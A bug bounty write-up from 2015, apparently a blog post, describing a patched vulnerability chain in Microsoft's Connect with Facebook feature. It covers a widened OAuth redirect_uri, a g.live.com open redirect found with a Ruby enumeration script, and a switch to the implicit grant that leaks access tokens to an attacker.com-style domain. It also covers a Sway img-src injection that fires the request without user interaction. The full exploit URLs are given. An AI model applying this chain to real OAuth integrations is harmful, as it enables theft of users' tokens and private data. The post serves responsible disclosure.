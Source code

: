 ```yaml
---
layout: post

title: "Stealing OAuth tokens in Microsoft Web applications"
subtitle: ""
cover_image: microsoft/microsoft.jpg

excerpt: "Wide redirect_uri parameter in the OAuth process allows an attacker to leak the Facebook OAuth token and steal user private information "

author:
  name: Lorenzo Fontana
  twitter: r0rshark
  gplus: 110104859248839601734
  bio: Bug hunter and student at Polimi
  image: me.png
facebook:
  sharelink: /2015/09/15/microsoft

---
```


### TL;DR
The Connect with Facebook functionality of Microsoft is vulnerable to the OAuth Covert Redirect attack.
The ``redirect_uri`` parameter can be modified by the attacker making the Facebook OAuth token leak to a domain not controlled by Microsoft and in this way steal user private information accessible through the token.

### OAUTH GUIDE ###

A basic undestanding of the OAuth flow is useful to better understand this post, a very good guide can be found [here](https://www.digitalocean.com/community/tutorials/an-introduction-to-oauth-2). When reading the guide focus the attention on *"Grant Type: Authorization Code"* and the *"Grant Type: Implicit"* which are by far the most common approaches.



### PROBING FOR WIDE REDIRECT_URI ###
The ``redirect_uri`` parameter is very important because it represents the url to which the **authorization_code/access_token** (based on Grant Type) is sent. If we are able to change the value of the ``redirect_uri`` and not to make the OAuth flow to fail (because of authenticity checks on the ``redirect_uri``) we could leak the token/code to a domain controlled by us.
Original Oauth request:

``https://www.facebook.com/v2.0/dialog/oauth?client_id=441348565910475``<br>
``&redirect_uri=``**https://profile.live.com/cid-847183e5db31faa2/services**<br>
``&scope=user_photos``

Possible redirect_url:

- **Completely different domain**:  redirect_uri=``https://attacker.com``;
- **Different subdomain**: redirect_uri=https://``xxx.live.com``/cid-847183e5db31faa2/services;
- **Different folder**: redirect_uri= https://profile.live.com``/xxx``;

The use of a completely different domain is very unlikely to work while in some cases the use of a different folder or subdomain is allowed. Our current payload is:

``https://www.facebook.com/v2.0/dialog/oauth?client_id=441348565910475``<br>
``&redirect_uri=``**https://xxx.live.com/xxx**<br>
``&scope=user_photos``

### SEARCHING FOR OPEN REDIRECT ###
The ability to leak the the token/code to a different subdomain/folder is not useful per se, however it provides to the attacker **a wider attack surface** to find an Open Redirect vulnerability. An Open Redirect endpoint is a url which redirects the user to a parameter value without any validation. The idea is to **find an Open Redirect in \*.live.com/\*** which would leak the token to a domain that we can control.

After some google dorking I have noticed that the endpoint:
  ``g.live.com/0HE_TRACKSTAR_ENUS9/<number>`` issues a 302 Redirect to external domains based on  ``<number>``.<br>
For example ``g.live.com/0HE_TRACKSTAR_ENUS9/1``<br>
redirects to ``http://www.msn.com/it-it/``<br>
Through a 30 line of ruby script I have enumerated the possible domains to which I could leak the token
{% highlight ruby %}

require "net/http"
require "uri"
require 'cgi'

if ARGV.length < 4
  puts "url_brute.rb <url to bruteforce> <start number> <end number> <file where to write>"
  exit
end

base_url = ARGV[0]
start = ARGV[1]
ending = ARGV[2]
file_path = ARGV[3]

uri = URI.parse(base_url)
http = Net::HTTP.new(uri.host, uri.port)
file = File.open(file_path, "a")

start.upto(ending){|id|
  uri = URI.parse(base_url+id.to_s)
  request = Net::HTTP::Get.new(uri.request_uri)
  begin
    response = http.request(request)
    found_url = response["Location"].to_s
  rescue
    found_url = id.to_s+ " Timeout"
    next
  end
  file.write(id.to_s+ " "+found_url+"\n")
  puts id.to_s+ " " + found_url

}
file.close()

{% endhighlight %}

Among these domains there are some which can be purchased like  g.live.com/0HE_TRACKSTAR_CSCZ9/75011  which redirects to  http://staysafe.org/ .
Making the  user issue a GET request to ``https://www.facebook.com/v2.0/dialog/oauth?redirect_uri=http://g.live.com/0HE_TRACKSTAR_CSCZ9/75011&display=popup``<br>
``&scope=user_photos+user_videos&client_id=441348565910475&ret=login`` will leak the token/code to  *http://staysafe.org/*.


###CHANGING THE FLOW###
Referencing to the guide that I have pointed out before the ``Grant Type`` used by Microsoft is the ``Authorization Code`` one. Using the exploit we can leak the ``Authorization Code`` but in order to access the protected information we need to exchange the ``Authorization code`` with the ``Access Token``. However in order achieve this we need to know the ``client_secret`` which we aren't able to get since it is stored on the Microsoft servers. In order to bypass this limitation we can change ``Grant Type`` to the ``Implicit`` one which directly provides the ``Access Token`` to the url in the redirect_url field.
With the Facebook SDK this can be done by **adding the parameter response_type=token**.

###STEALING THE TOKEN###
An attaker could:

1. Purchased the domain ``http://staysafe.org/``;
2. Insert a small javascript script at staysafe.org to get the window.location.hash and parse it to ``extract the token``;
3. Make the victim issue a GET request to ``https://www.facebook.com/v2.0/dialog/oauth?redirect_uri=http://g.live.com/0HE_TRACKSTAR_CSCZ9/75011&display=popup``<br>
``&scope=user_photos+user_videos&client_id=441348565910475&ret=login&response_type=token``.

###TRIGGER THE EXPLOIT WITHOUT INTERACTION###
The Connect with Facebook functionality can be used in the ``Microsoft Sway application`` where I found a second vulnerability which would allow an attaker to make the user issue arbitrary GET requests by just viewing a ``"sway"``.
This is possible because, crafting a particular request in the Add image functionality, an attacker is able to persistently control the ``src attribute of an img tag``. I tried to exploit this kind of vulnerability to get an XSS however the quotes were escaped and the ``javascript:alert(1)`` payload in the img src attribute doesn't work in the modern browsers. However we can use this vulnerability to automatically make the user issue our "exploit GET request" triggering our exploit as soon as he view a maliciously crafted ``"sway"``.

<div class="full zoomable">
  <img src="/images/microsoft/sway_poc.png">
</div>

- 15 May 2015 Vulnerability reported to the Microsoft Security Team
- 4 August 2015 Vulnerability patched
- 25 August 2015 Got reward of 1000$





